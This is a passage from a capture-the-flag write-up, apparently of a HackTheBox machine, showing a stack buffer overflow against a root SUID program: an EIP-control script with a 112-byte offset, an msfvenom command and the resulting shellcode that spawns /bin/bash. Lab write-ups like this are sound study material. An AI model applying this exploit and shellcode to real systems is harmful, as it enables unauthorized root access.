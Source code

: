 At this point, I needed to take control over EIP, so I wrote the following program to keep track of my progress:

```python
import struct
import sys

buf_len = 112
eip = struct.pack("<I", 0xdeadbeef)
buf = b'A' * buf_len
buf += eip
sys.stdout.buffer.write(buf)
```

I then ran the program in gdb/gef like the following:

![](/assets/images/htb-october/october-control-eip-crash-offset.png)

Excellent! I was able to control the EIP register! At this point, I needed to put some shellcode in the buffer to spawn a shell and put it into the buffer. I used `msfvenom` to do this for me.

```
$ msfvenom -a x86 --platform linux -p linux/x86/exec CMD=/bin/bash -f python -b '\x00'
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of python file: 365 bytes
buf =  b""
buf += b"\xdb\xd9\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0c\xba\x17"
buf += b"\xa5\x80\x35\x31\x53\x18\x03\x53\x18\x83\xeb\xeb\x47"
buf += b"\x75\x5f\x18\xd0\xef\xf2\x78\x88\x22\x90\x0d\xaf\x55"
buf += b"\x79\x7e\x58\xa6\xed\xaf\xfa\xcf\x83\x26\x19\x5d\xb4"
buf += b"\x32\xde\x62\x44\x6d\xbc\x0b\x2a\x5e\x22\xad\xc1\xc8"
buf += b"\xa2\x7a\x75\x81\x42\x49\xf9"
```

Note that I needed to encode the null byte because it is a bad character for stdin which is how the payload will be delivered to the vulnerable root SUID program.
